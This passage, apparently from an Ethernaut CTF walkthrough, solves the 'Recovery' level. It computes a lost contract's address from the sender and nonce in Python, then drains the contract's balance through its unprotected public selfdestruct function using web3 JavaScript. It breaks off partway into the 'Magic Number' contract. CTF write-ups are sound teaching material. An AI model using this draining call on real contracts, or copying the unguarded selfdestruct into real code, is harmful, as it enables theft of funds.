 ```solidity
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

To solve this challenge we need to recover the lost contract address.

We can calculate the address of a contract using two inputs one is sender address and another one is nonce.

We have the sender address that is Recovery contract .

The nonce will incremented before calculating the address as it is the first contract that Recovery contract created the nonce is 1.

I found this python code to calculate the address using Sender and Nonce .

```python
import rlp
from eth_utils import keccak, to_checksum_address, to_bytes
def mk_contract_address(sender: str, nonce: int) -> str:
    sender_bytes = to_bytes(hexstr=sender)
    raw = rlp.encode([sender_bytes, nonce])
    h = keccak(raw)
    address_bytes = h[12:]
    return to_checksum_address(address_bytes)
print(to_checksum_address(mk_contract_address(to_checksum_address("0xc3EC367bBA66b285Be6bA770992F11eF81D555ce"), 1)))
```

I got the contract address , check the balance to confirm .

To remove the balance from the contract call the destroy function in the contract .

Calling destroy function removes the balance from the contract.

```js
let contract_address = "0xe67204Ff8C8236bfAf22d42Eb160c713bad456Cc";
let functionSignature =
	web3.eth.abi.encodeFunctionSignature("destroy(address)");
let functionParam = web3.eth.abi.encodeParameter("address", player).slice(2);
await web3.eth.sendTransaction({
	from: player,
	to: contract_address,
	data: functionSignature + functionParam,
});
```

## 18 Magic Number

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract MagicNum {
  address public solver;
  constructor() {}
  function setSolver(address _solver) public {
    solver = _solver;
  }
  /*
    ____________/\\\_______/\\\\\\\\\_____
     __________/\\\\\_____/\\\///////\\\___
      ________/\\\/\\\____\///______\//\\\__
       ______/\\\/\/\\\______________/\\\/___
        ____/\\\/__\/\\\___________/\\\//_____
         __/\\\\\\\\\\\\\\\\_____/\\\//________
          _\///////////\\\//____/\\\/___________
```